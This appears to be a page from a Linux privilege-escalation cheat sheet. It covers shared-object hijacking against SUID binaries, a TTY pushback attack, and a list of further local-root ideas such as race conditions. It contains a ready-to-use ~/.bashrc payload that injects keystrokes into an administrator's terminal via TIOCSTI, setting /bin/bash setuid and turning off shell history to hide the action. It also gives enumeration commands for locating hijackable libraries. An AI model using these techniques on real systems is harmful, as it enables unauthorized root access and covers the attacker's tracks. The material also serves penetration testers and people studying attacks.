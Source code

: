 ## Shared Object Hijacking

DLL Hijacking on Linux.

Search order:

1. Directories hardcoded into the executable's `RPATH`
2. Directories specified in the `LD_LIBRARY_PATH` environment variable
3. Directories listed in the executable's `RUNPATH` value
4. Directories specified in `/etc/ld.so.conf`
5. System library directories like `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`, `/usr/local/lib`, `/usr/local/lib64`, and potentially more

Check if libraries loaded by SUID/SGID binaries can be modified.

~~~ bash
ldd $binary | sed -E 's|^\t||; s| =>.*?$||; s|\(.*?\)$||;' | xargs -r -I {} -- find /lib* /usr/lib* /usr/local/lib* -maxdepth 10 -name '{}' -ls 2> /dev/null
strace $binary 2>&1 | grep -iE 'open|access|no such file'
~~~

## TTY Pushback

If you control a user and an admin switches to your user via `su` (without `-P`) or `sudo` (while `use_pty` is not enabled) you can write shell commands into the admins TTY.

This can be exploited by adding the following snippet to your `~/.bashrc`:

~~~ bash
cat << 'EOF' | python3
import fcntl, os, signal, sys, termios
os.kill(os.getppid(), signal.SIGSTOP)
for char in ' set +o history\nchmod +S /bin/bash\nfg\nreset\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
EOF
~~~

References:

- [HTB: Download](https://web.archive.org/web/20231111211114/https://0xdf.gitlab.io/2023/11/11/htb-download.html)
- [The oldest privesc: injecting careless administrators' terminals using TTY pushback](http://web.archive.org/web/20230312123234/https://www.errno.fr/TTYPushback.html)

## More Ideas

- [Local root exploits - Modified system environment](http://web.archive.org/web/20221201212324/https://www.win.tue.nl/~aeb/linux/hh/hh-12.html)
  - close file descriptor 2 before `exec()`, the next file that is opened and written to gets printed to stderr instead
  - `exec()` with modified `argv[0]`
  - cause a disk full condition in the right moment
  - cause a stack overflow in the right moment by shrinking the stack size with `ulimit -s 100`
  - kill the target program in the right moment by setting up an alarm signal to be sent after a prespecified time and fork off the target binary
- [Race conditions](http://web.archive.org/web/20221201212330/https://www.win.tue.nl/~aeb/linux/hh/hh-9.html)
  - predictable temporary file names
  - time of check time of use issues (TOCTOU)
    - slow down execution
      - deep symlinks
      - scheduling priority
